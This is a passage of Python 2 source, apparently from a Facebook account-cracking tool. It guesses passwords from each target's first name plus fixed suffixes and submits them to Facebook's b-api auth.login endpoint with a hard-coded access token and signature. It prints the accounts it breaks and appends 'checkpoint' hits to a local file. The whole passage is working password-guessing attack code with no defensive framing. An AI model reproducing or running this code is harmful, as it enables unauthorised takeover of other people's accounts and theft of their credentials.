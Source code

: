 				else:

					pass2 = b['first_name']+'Ali123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '987654'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)
